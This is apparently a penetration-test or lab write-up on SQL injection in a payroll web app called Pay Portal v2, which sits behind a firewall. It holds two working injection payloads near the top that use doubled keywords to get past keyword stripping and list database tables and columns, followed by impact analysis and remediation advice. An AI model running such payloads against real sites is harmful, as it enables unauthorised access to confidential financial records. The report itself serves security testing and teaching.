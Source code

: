 ```sql=
" UNUNIONION SELSELECTECT 1,2,3,4,5,6,7, table_name FROM information_schema.tables;
```
![](https://i.imgur.com/B0QoBUZ.png)
*To get table names*

```sql=
" UNUNIONION SELSELECTECT 1,table_name,column_name,4,5,6,7,8 FROM information_schema.columns;
```
![](https://i.imgur.com/AJSsJK2.png)
*To get column names*

### Impact
As Pay Portal v2 appears to be a derivative of Pay Portal application with a Web Application Firewall, it is vulnerable to the same vulnerabilities as its predecessor and maintains the same risk too.
#### Technical Risk
The vulnerability allows users to view, edit and modify the full SQL database which could be catastrophic for the site. Attackers can not only view confidential data regarding finances, but are also free to edit and potentially delete the database.
This could result in wrecking havoc to income records and plans, which would directly threaten all employees' livelihoods.

The leakage of this information could furthermore be used to target individual users and gather information about them for another attack, perhaps on a different domain, e.g. through taxation records or other financial institutions.

#### Business Risk
A business that cannot protect its employees' information runs the risk of negative press in the event of a cyber attack that may eventuate to lawsuits due to negligence on the institution's behalf.

Financial records in particular are non-trivial, and could lead to quasi-corporate espionage on the behalf of competing businesses who may poach staff, incentivised through the provision of better financial payment.
### Remediation
While adding a WAF is a good start to better protecting the business, there are many more steps that can be taken to improve Pay Portal's security.

Firstly, disable detailed error messages. While they are exceptionally helpful in building and debugging the application, they also are an attacker's good friend with the amount and detail of advice they give. Thanks to the detailed error messages, we were able to work out what data made it to the server and whether the payload we sent was fit for the server to operate on. The most detailed an error message should be: "the input returned no results".

Secondly, only allow valid inputs. This is what's known as an "allowlist" [or formerly "whitelist" (our team is an equal opportunity employer)]. Strict regular expression patterns or word lists should be employed to be matched against a user's "dirty" inputs before being passed through internal software. A quick example would be `(\d{4})-(\d{1,2})-(\d{1,2})` for a bare minimum pattern that would allow a year-month-date like "9999-00-99", but would automatically deny anything from SQL commands like `SELECT` or `UNION` to JavaScript functions like `alert('wow');`.

Thirdly, store the dates in the database using the SQL DATE data type. This works in tandem with the second point by making it far easier to validate user input by limiting the number of valid input format patterns.
